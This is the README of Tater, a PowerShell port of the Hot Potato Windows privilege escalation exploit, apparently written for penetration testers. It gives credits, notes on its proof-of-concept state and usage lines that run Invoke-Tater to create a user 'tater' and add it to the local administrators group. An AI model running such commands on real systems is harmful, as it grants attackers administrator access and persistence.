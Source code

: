 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit. Tater is mainly pieced together from existing Inveigh code.   

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
Use caution, this is still very much in a proof of concept stage. It’s only been tested on Windows 7. It's also missing some of the advanced features found in Potato. 
  
The most likely thing to go wrong is that the HTTP listener will not release the port 80 binding on exit. If this happens, closing out your PowerShell process will remove the binding.     

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add" –RunTime 10   
